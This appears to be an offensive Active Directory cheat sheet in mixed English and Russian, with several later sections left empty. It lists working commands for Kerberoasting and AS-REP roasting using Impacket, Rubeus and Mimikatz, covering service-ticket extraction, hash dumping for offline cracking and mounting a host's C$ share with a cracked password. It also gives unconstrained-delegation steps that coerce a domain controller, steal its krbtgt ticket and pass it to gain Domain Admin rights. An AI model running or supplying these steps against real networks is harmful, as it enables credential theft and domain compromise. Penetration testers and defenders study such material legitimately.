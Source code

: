 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T DomainName -Q \*/\*  
    - загружаем билеты в память для дальнейних действий.  
    - Add-Type -AssemblyName System.IdentityModel  
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
    - Проверяем, что билет загружен в память: klist  
    - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
        - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
    - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting (Impacket, Rubeus):  

**Description**: AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.  

**Get users NTLMv2 hash with Impacket**: GetNPUsers.py -userfile [file] -outputfile [output filename] -dc-ip [DC IP] domain/  

**Get users NTLMv2 hash with Rubeus**: Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.txt  

**Aditional information**:  
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast  

## Unconstrained Delegation (Covenant, Rubeus, PowerView):  

**Description**: когда компьютер доверен для делегирования, это означает, что любые службы, работающие в локальной системе, могут запрашивать службы с других серверов от имени пользователя.  

1) Import powerview;  
2) get-netcomputer -unconstrained -properties dnshostname  
   - ms-rprn.exe \\DC \\Workstation  
   - rubeus.exe dump /service:krbtgt //looking for DC ticket;  
3) Copy DC Base64 encoded krbtgt;  
   - Make fake token (Covenant): maketoken administrator <username> <junk password>  
   - rubeus.exe ptt /ticket:<Base64 encoded ticket>  
4) Get Domain Admin Rights.  
    
**Obtain TGT from another compuret (Rubeus)**:  
1) Rubeus.exe monitor /interval:10 /nowrap  
2) SharpSpoolTrigger.exe target_host listener_host  
    
**Aditional information**: https://blog.netwrix.com/2021/11/30/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/  


## Constrained Delegation:  


## Alternate Service Name:  


## 
